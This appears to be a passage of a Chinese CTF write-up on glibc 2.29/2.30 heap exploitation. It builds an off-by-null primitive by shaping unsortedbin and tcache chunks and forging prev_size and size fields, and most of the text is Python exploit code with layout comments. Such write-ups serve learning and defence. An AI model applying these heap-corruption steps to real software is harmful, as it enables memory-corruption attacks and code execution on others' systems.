

```python
free(98)#0x98     #53     #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(0xd8,'\x00') # 0x32        #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(0xb8,'\x00') # 0x35          #124 0x****fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55     #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(0xb8,'\x00') #0x36     #132     0x****fb20
add_malloc(0x98,'\x00') #0x37      #133    0x****f900
add_malloc(0x38,'\x00') #0x3b     #134     0x****fbe0
```

重构之后如下



### (6)修复`FD->bk`和`BK->fd`

```python
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache

#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(133) #0x37     #133     0x****f900
free(132) #0x36      #132     0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(123) #0x32     #123      0x****ff70
```

### (7)再重构为`97->124->157->134`

方便将`0x****ff70`和`0x****f900`的对于`fd`,`bk`进行off-by-null，使得`0xb20`变为`0xb00`。

```python
free(59) #58        #59        0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)

claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155

add_malloc(0xc8,'\x00') #0x32         #156     0x****fed0
add_malloc(0xb8,'\x00') #0x36         #157     0x****fb20
add_malloc(0xb8,'\x00') #0x37          #158    0x****ffa0
add_malloc(0x98,'\x00') #58          #159     0x****f900

#--top_chunk
add_malloc(0x98,'\x00') #0x3d             #160
add_malloc(0x98,'\x00') #0x3e             #161
add_malloc(0x18,'\x00') #0x3f             #162

#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache

free(161) #0x98     #0x3e         #161
free(159) #0x98     #58          #159     0x****f900
free(157) #0xb8     #0x36         #157
free(50) #0x98     #49         #50     0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120

claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add_malloc(0xb8,'\x00') #49     #177
add_malloc(0x98,'\x00') #0x36      #178

#切割0x140的块
add_malloc(0xc8,'\x00') #0x3a     #179     0x****f860
add_malloc(0x68,'\x00') #0x3e       #180
```

现在就可以通过`chunk179`来将`0x****f900`中的`bk`给改掉。

通过`chunk156`来将`0x****ff70`中的`fd`给改掉。

### (8)利用off-by-null得到最终布局

```python
partial_null_write = 0x98*'b'
partial_null_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial_null_write+'\x00') #0x32      #156

partial_null_write = 0xa8*'c'
edit(179,0xa8+0x1,partial_null_write+'\x00') #0x3a         #179

#伪造pre_size
fake_chunk_size = 0x98*'d'
fake_chunk_size += p64(0x2e1)
edit(124,0x98+0x8,fake_chunk_size) #0x35     #124
```

### (9)触发off-by-null

```python
for i in range(42,49):#0xe8
free(i+1)
free(58)
```

### ▲总结

①利用`unsortedbin`成链机制，合并`unsortedbin`中的`chunk`并且切割，这样就能保留住`FD`和`BK`了。

②再利用`unsortedbin`成链和切割的机制，就能修改到对应`preChunk`的`FD`和`BK`了，修改最后一个字节为`\x00`即可。

③由于2.29之后添加的两项检查，所以需要注意的是伪造`unsortedbinChunk`的`size`时，也要伪造`nextChunk`的`pre_size`和`pre_inuse`位。

④太他丫的麻烦了，有这时间布局还不如肝其他题.....

再贴个汇总的`exp`，基于`libc2.30`，自己的题目：
